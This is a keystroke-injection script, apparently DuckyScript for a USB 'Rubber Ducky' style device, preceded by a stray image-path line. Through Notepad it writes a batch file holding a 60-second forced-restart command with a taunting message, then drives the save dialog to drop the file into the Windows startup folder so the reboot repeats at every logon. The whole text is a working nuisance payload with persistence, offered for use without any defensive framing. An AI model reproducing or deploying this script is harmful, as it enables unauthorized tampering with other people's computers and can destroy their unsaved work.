     DELAY 500
    GUI r
    DELAY 500
    STRING notepad
    DELAY 500
    ENTER
    DELAY 500
    STRING shutdown.exe -r -t 60 -c "You have 60 sec to stop this computer from restarting (!!!SAVE YOUR WORK!!!), go to cmd and type shutdown.exe (-)a without brackets. And if you want to stop this from happening every time you logon delete the file from startup."
    DELAY 550
    CTRL s
    DELAY 500
    STRING shutdown.bat
    DELAY 500
    TAB
    DELAY 100
    TAB
    DELAY 100
    TAB
    DELAY 100
    TAB
    DELAY 100
    TAB
    DELAY 100
    TAB
    DELAY 700
    ENTER
    DELAY 200
    STRING startup
    DELAY 700
    ENTER
    DELAY 500
    TAB
    DELAY 100
    TAB 
    TAB
    DELAY 100
    TAB
    DELAY 100
    TAB
    DELAY 400
    TAB
    DELAY 100
    TAB 
    TAB
    DELAY 100
    TAB
    DELAY 100
    TAB
    ENTER
    ALT F4
    TAB
    DELAY 100
    ENTER